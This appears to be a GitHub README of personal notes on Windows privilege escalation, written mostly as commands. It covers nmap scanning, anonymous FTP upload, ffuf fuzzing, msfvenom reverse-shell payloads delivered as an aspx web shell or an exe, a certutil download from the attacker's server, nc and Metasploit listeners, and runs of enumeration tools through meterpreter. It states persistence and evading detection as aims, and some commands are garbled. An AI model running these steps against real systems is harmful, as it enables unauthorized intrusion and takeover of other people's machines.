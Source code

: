 # winescalation
Windows Privilege Escalation

Intro:
A cyberattack technique for Gaining unauthorized access to your windows and gaining more control or higher privileges than what is typically allowed. It is possible due to weakness or vulnerability in the system.

Example - Login to website with someone's account

AIM:
->Gain administrative control
->Access restricted resources
->Maintain persistence
->Expand lateral movement
->Evade detection and security measures

2 types:

1.Horizontal priv escalation - When 1st users got access to other account via any username or password or via any other method and login or work as 2nd user.

2.Vertical priv escalation - When user able to perform any activity on behalf of administrator.

I) Gaining Initial Access 

->It basically requires some type of privilages in your hand.

->Once we have initial access we can then perform enumeration to identify vulnerabilities that can allow us to do privilage escalation.

nmap -p- -A ipofdevice -oN nmap.txt --min-rate 10000

If FTP anonumous service is allowed
If no file found or not found anything , try to put some file from your system
put nmap.txt

Now if found port 80 
just type ip on the browser 
use ffuf => ffuf -u http://ip/FUZZ/nmap.txt -w /usr/share/seclists/Discovery/web-content/reft-small-directoriex.txt -t 100

Now try uploading payload created by msfvenom

msfvenom -l formats
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=yourip lport=80,443,53,445(prefer or 80) -f aspx -o robensive.aspx 
or (2nd method)
msfvenom -p windows/x64/shell_reverse_tcp lhost= lport=8989,7777 -f exe -o test.exe 

now upload robensive.aspx or test.exe
For uploading (for 2nd method)
python3 -m http-server 8000(for running a server from the linux terminal)
certutil -urlcache -f -split http:://lhost:8000/test.exe test.exe(On target windows command prompt)
nc -lnvp 8989 (on termainal)
test.exe

run metasploit listener(for 1st method)

msfdb run 
uer exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost=yourip
set lport=445(as used before)
run

Now access robensive.aspx via browser and get meterpreter
##Completer Initiall Access##

getuid 
getprivs
sc qc unquotedsvc => cd BINARY_PATH_NAME"
cmdkey /list


Enumeration for privsec
->some known scripts:
PowerUp
WinPEAS
PrivescCheck
BeRoot
PayloadAllThings
->Now we can try poetential ways to privilage escalation over the system to be a administrative user
->Many automation scripts

Practical part
shell
net localgroup administrators -> got  all users
net user "username"
exit

1.Powerup (google it)
wget from github
load
load powershell
help
powershell_import PowerUp.ps1
powershell_execurte Invoke_powerup(can cause problem to use  for powerups

2.Privescheck(google it)
powershell_import PrivescCheck.ps1
powershell_execurte Invoke_PrivescCheck

3.WinPeas(install from github)
upload winpeasx64.exe(on meterpreter)
shell
winpeasx64.exe


4.Beroot(install from github )
upload beRoot.exe
shell 
beroot.exe

#Priviege Escalataion
->Based on enumeration we will exploit the machine.

Mitigation:
Based on vulnearabilities , different mitigation should be applied
